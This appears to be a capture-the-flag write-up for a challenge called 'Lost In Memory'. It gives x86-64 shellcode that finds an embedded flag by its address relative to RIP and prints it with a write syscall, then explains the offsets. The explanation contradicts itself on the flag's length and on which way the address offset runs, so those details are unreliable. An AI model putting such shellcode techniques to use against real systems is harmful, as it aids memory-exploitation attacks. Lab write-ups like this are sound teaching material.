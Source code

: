 # Lost In Memory

```asm
lea rax, [rip]
sub rax, 0x6e
mov rdi, 1
mov rsi, rax
mov rdx, 47
mov rax, 1
syscall
```

- RAX: 1 (SYS_WRITE)
- RDI: 1 (fd = STDOUT)
- RSI: address of the flag
- RDX: 47 (length of the flag in bytes)

The idea is to use the address of the shellcode as the address of the string to print. The RIP contains the next instruction address. The flag is placed before the shellcode, so the address of the shellcode is the address of the flag minus 0x6e. Where 0x6e is the length of the flag.

The flag is 48 (0x30) bytes long. The stub is 55 (0x37) bytes long. The first instruction of the shellcode is 7 bytes long. Then 0x30 + 0x37 + 0x7 = 0x6e, that we have to subtract from the RIP.
We are using the first instruction of the shellcode because the RIP points to the next instruction.

The complete exploit is in [script.py](script.py).
